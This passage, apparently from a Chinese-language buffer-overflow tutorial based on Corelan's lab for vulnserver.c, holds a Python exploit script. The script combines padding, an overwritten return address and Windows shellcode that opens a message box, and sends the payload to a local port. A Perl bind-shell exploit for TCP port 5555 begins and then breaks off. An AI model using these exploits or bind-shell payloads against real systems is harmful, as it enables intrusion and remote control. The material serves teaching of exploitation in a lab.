 	data = "A" * 504
	
	#71a22b53  
	data += "\x53\x2b\xa2\x71"
	shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
	    "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
	    "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
	    "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
	    "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
	    "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
	    "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
	    "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
	    "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
	    "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
	    "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
	    "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
	    "\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
	    "\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
	    "\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
	    "\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
	    "\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
	    "\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
	    "\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
	    "\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
	    "\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
	    "\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
	    "\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
	    "\x40\xFF\x54\x24\x40\x57\xFF\xD0")
	data+=shellcode
	s= socket.socket()
	s.connect(('localhost',200))
	s.send(data)
	s.close()

运行成功：


![](/assets/img/metasploit/4.png)

我们再使用一个绑定端口的的payload，下面的payload将shell绑定到tcp 5555端口：

	#
	print " --------------------------------------\n";
	print "     Writing Buffer Overflows\n";
	print "       Peter Van Eeckhoutte\n";
	print "     http://www.corelan.be:8800\n";
	print " --------------------------------------\n";
	print "    Exploit for vulnserver.c\n";
	print " --------------------------------------\n";
	use strict;
	use Socket;
	my $junk = "\x90" x 504;
	